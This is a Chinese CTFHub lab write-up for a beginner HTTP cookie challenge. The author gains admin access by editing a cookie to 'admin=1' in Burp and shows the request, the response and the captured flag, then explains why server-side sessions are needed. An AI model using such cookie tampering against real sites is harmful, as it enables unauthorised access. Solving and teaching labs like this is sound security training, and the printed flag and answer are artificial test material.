

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-05e24ec619897da4.sandbox.ctfhub.com:10800/ |
| Flag | `ctfhub{eec8936a7c147f9063e8848e}` |

## 解题过程

访问靶场首页，页面提示需要管理员身份才能看到 flag，但我没有任何登录入口。把请求抓到 Burp 里看，请求头最下面有一行 Cookie，里面带着一个身份相关的字段。既然服务端只认这个值，我就把它改成 admin=1 再 Send。改完服务器返回 200 OK，响应体里直接就是 flag，说明它确实是只看 Cookie 判断身份的。

## 关键请求/响应

```http
GET / HTTP/1.1
Host: challenge-05e24ec619897da4.sandbox.ctfhub.com:10800
Cookie: admin=1

HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/5.6.40
Content-Length: 32

ctfhub{eec8936a7c147f9063e8848e}
```

## 原理与复盘

Cookie 是请求头里的一行键值对，浏览器对同一域名下的每个请求都会自动带上。服务端收到后按这个值去判断你是谁、有没有权限。一旦权限判断只依赖客户端可改的 Cookie，就等于把门锁交给了访客。正确做法是把身份放在服务端 Session 里，Cookie 只存一个随机且不可猜的 session id。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。

